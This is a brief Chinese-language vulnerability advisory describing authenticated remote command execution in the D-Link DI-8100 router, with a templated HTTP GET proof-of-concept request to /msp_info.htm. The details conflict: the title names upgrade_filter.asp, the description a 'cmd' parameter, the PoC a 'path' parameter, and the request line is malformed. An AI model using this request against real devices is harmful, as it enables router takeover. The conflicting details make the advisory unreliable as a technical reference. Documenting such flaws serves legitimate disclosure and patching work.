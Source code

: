 # upgrade_filter.asp 命令执行

>   D-Link DI-8100是D-Link专为中小型网络环境设计的宽带路由器，支持最多4个互联网端口和最多4个局域网端口。

## 来源

[https://github.com/aLtEr6/pdf](https://github.com/aLtEr6/pdf)

## 简介

D-Link DI-8100的upgrade_filter.asp接口存在远程命令执行漏洞，由于msp_info.htm的对cmd参数未做过滤处理，获取登录权限的攻击者可通过构造请求执行任意命令，进而接管该服务器。

## 漏洞类型

远程命令执行

## 影响范围

-   D-LINK DI-8100 16.07

## POC

```http
GET /msp_info.htm?path={{payload}}&name=file.bin&time=1111 /1.1
Host: {{Host}}
Cookie: {{Cookie}}
```

